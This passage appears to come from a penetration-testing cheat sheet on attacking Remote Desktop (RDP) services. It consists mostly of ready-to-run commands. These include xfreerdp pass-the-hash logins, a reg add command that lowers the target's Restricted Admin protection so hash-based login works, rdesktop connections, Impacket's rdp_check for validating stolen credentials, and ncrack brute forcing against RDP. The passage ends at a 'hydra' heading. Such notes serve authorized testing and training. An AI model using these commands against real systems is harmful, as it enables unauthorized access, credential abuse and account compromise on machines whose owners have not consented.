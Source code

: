 ```bash
xfreerdp [/d:domain] /u:<username> /p:<password> /v:$ip

#Pass the hash
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip 
```

**Troubleshoot in PtH attack**

*Restricted Admin Mode*, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with an error. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use xfreerdp with the option /pth to gain RDP access.


### rdesktop

See [rdesktop](rdesktop.md).

```bash
rdesktop -u <username> $ip
rdesktop -d <domain> -u <username> -p <password> $ip
```


## Attacks

### Password guessing

#### rdp_check.py from Impacket

Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing. There is a tool for checking known credentials against RDP services.

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:

```
rdp_check <domain>/<name>:<password>@$ip
```

### Brute force

Just think it twice: in many cases, **a user account will be locked or disabled after a certain number of failed login attempts**.

#### ncrack

```
ncrack -vv --user <User> -P pwds.txt rdp://$ip
```


#### hydra
